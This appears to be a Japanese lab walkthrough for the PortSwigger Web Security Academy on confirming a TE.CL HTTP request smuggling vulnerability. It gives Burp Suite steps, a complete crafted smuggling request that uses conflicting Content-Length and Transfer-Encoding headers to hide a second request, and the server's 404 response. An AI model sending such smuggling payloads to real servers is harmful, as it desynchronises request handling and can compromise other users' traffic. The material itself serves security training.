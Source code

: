 # HTTP リクエストの密輸、差分応答による TE.CL の脆弱性の確認

次のハッキングラボを実施します  
https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses  
このラボにはフロントエンドサーバーとバックエンド サーバーが含まれますが、バックエンドサーバーはチャンク エンコーディングをサポートしていません。

- 1. Burp Suite を起動して、proxy タブからブラウザを立ち上げます

* 2. ブラウザからハッキングラボにアクセスします

- 3. GET / リクエストを send to repeater します
- 4. Repeater のリクエストを表示した状態で右クリックして change to request を選択して、POST リクエストに切り替えます

* 5. Setting で Repeater の Update content length のチェックボックスを外します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/8b1031a6-e20f-4f61-b906-8b54d6d8a882)

* 6. リクエストを以下のように書き換えて 2 回送信します

```
POST / HTTP/1.1
Host: 0a3f007e04997411800d589400b200f7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

2 回目のレスポンス

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=LWZFHsViAmfaqg4cn05Igbl8JyZenK2j; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 11

"Not Found"
```

バックエンドは最初のリクエストで Se まで処理し、それ以降は別のリクエストとして POST /404 を処理します。
次回リクエストで、それに対する応答を返します。
